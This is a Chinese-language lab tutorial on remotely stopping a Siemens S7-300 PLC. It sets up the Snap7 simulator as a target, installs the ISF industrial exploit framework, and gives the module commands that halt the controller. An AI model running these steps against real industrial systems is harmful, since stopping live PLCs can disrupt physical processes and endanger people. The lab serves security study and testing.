





# S7-300 启停实验

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

西门子（SIEMENS）公司的 PLC 产品包括 LOGO、S7-200、S7-1200、S7-300、S7-400、S7-1500 等。

西门子 PLC 在我国的应用比其他系列多。

西门子 S7 系列 PLC 体积小、速度快、标准化，具有网络通信能力，功能更强，可靠性高。S7 系列 PLC 产品可分为微型 PLC（如 S7-200），小规模性能要求的 PLC（如 S7-300）和中、高性能要求的PLC（如S7-400）等。

西门子 PLC 使用私有协议进行通信，它是利用 TPKT 和 ISO8073 的二进制协议。西门子的 PLC 通信端口均为 102 端口,。西门子 PLC 协议有3个版本，S7Comm 协议，早期 S7CommPlus 协议和最新的 S7CommPlus 协议。

S7-200、S7-300、S7-400 系列的 PLC 采用早期的西门子私有协议 S7comm 进行通信。该协议不像 S7CommPlus 的加密协议（S7-1500 等），不涉及任何反重复攻击机制，可以被攻击者轻易利用。S7comm-plus 协议引入了会话 ID 来防止重放攻击。

**实验环境**

`环境仅供参考`

- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- CentOS Linux release 7.7.1908
- VMware® Workstation 15 Pro - 15.0.0 build-10134415

---

# 环境搭建

本次实验用模拟器代替现场设备,先访问软件官网 http://snap7.sourceforge.net/ ,点击 Download 会跳转到 https://sourceforge.net/projects/snap7/files/ ,下载 snap7-full-1.4.2.7z


首先S7模拟器客户端连接主机,解压,打开 \rich-demos\x86_64-win64\bin 下 serverdemo.exe

输入本机 IP 点击 start 连接


然后使用 S7 模拟器客户端,打开 clientdemo.exe 进行连接

输入本机 IP 点击 connect 连接



此时服务端出现请求信息,表示连接成功



---

# 漏洞利用

接下来采用开源的工控漏洞利用框架 ISF

工具地址 : https://github.com/dark-lbp/isf

使用 Centos 下载并使用
```bash
yum install -y python
wget https://bootstrap.pypa.io/get-pip.py
python get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
pip install -t /usr/lib/python2.7/site-packages -r requirements.txt
python2.7 isf.py
```

kali如下
```bash
python2 get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
python2 -m pip install -r requirements.txt
python2.7 isf.py
```

实际利用
```
use exploits/plcs/siemens/s7_300_400_plc_control
set target 192.168.141.128
run
```



这里显示 `stop plc` ,同时查看模拟器中的输出,可以发现已经停止



---

**Source & Reference**
- [工控安全 | 西门子S7-300攻击分析](https://www.freebuf.com/articles/ics-articles/228770.html)
- [工控安全：S7-1200 PLC远程启停攻击实验](https://www.key1.top/index.php/archives/469/)
